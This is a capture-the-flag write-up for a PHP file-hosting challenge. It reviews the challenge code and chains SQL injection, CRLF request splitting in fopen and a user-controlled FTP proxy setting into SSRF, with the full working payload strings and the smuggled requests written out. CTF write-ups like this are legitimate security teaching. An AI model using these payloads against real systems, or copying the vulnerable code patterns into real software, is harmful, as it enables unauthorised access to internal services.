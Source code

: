 #sqli #crlf #req-splitting #hrs #ssrf #sqlite
# m0le24 - ndayFilestorage
## Description
S3, min.io, uploadthing... Why do we have to complicate our platforms with all of these when we have some good old well-tested solutions?
## Overview
It's a file hosting website composed by 2 services:
- app
- ftp -> this service runs an ftp service and an http service that is used to create accounts
## Road to flag
The flag is returned by the webserver running in the 'ftp' service:
```js
app.post("/flag", (req, res) => {
  if (!!req.headers["x-get-flag"]) {
    res.send(process.env.FLAG || "ptm{REDACTED}");
  } else {
    req.send("nope");
  }
});
```
## Code review
1. SQLi
There's a SQLi in the `upload_file` function:
```php
$stmt = $database->prepare("INSERT INTO files (owner, filename, size) VALUES (:owner, '$filename', :size)");
```

2. SSRF
The ftp context is created like this:
```php
$opts = ['ftp' => $_SESSION['settings']];
$context = stream_context_create($opts);
```

`$_SESSION['settings']` can be controlled by the user by submitting a `POST` request to `/`:
```php
$data = json_decode($_POST['settings'], true);
if (!is_array($data)) {
	die;
}
$_SESSION['settings'] = $data;
```

I can set the [context options](https://www.php.net/manual/en/context.ftp.php) in order to forward all `read` file requests to the ftp service:
```
{"proxy":"ftp:3000"}
```

and when trying to download a file this request will be sent:
```
GET ftp://username:password@ftp/filename HTTP/1.1
Authorization: Basic Mjg0OTJhNTQzYTMwYzdjODoyOTU3ZjJlZTUzYWM3MGQ5
Host: ftp
Connection: close
```
But to get the flag I only have to make the request POST and add the `x-get-flag` header.

3. CRLF injection -> Request splitting -> SSRF
In the `upload_file` function, the filename is not sanitized, and it's inserted directly into the url:
```php
$ftp = @fopen("ftp://{$_SESSION['user']}:{$_SESSION['password']}@ftp/$filename", 'w', false, $context);
```

Testing locally I observed that fopen is vulnerable to CRLF injection:

By setting `$filename = 'flag%20HTTP%2f1.1%0d%0aHost%3a%20ftp%0d%0a%0d%0aPOST%20%2fflag%20HTTP%2f1.1%0d%0aX-Get-Flag%3a%201%0d%0aX%3a%20'`
this request is sent:
```
GET ftp://dcc24aaf6ff28e53:91ce935517f3c9ec@ftp/flag HTTP/1.1
Host: ftp

POST /flag HTTP/1.1
X-Get-Flag: 1
X:  HTTP/1.1
Authorization: Basic ZGNjMjRhYWY2ZmYyOGU1Mzo5MWNlOTM1NTE3ZjNjOWVj
Host: ftp
Connection: close
```

But the problem is that it's not possible to insert CRLF into filenames.
So i can't request `GET /?filename=CRLF_PAYLOAD` because it is not present in the DB:
```php
$filename = $_GET['filename'];

$stmt = $database->prepare('SELECT * FROM files WHERE owner = :owner AND filename = :filename');
$stmt->execute([
	'owner' => $_SESSION['user'],
	'filename' => $filename
]);
$file = $stmt->fetch();

if (!$file) {
	die('<script>window.close()</script>');
}
```
## Exploitation
1. Creating a file with this name:
`none',1),(:owner,cast(X'666c616720485454502f312e310d0a486f73743a206674700d0a0d0a504f5354202f666c616720485454502f312e310d0a582d4765742d466c61673a20310d0a583a20' as text),:size);--`
Exploits the sqli and inserts in the db a file that has as name the CRLF payload
2. Set the ftp settings to `{"proxy":"ftp:3000"}`
3. request `GET /?filename=flag%20HTTP%2f1.1%0d%0aHost%3a%20ftp%0d%0a%0d%0aPOST%20%2fflag%20HTTP%2f1.1%0d%0aX-Get-Flag%3a%201%0d%0aX%3a%20`

`ptm{php_why_d0_y0u_hav3_t0_b3_l1k3_th1s..._--_....}`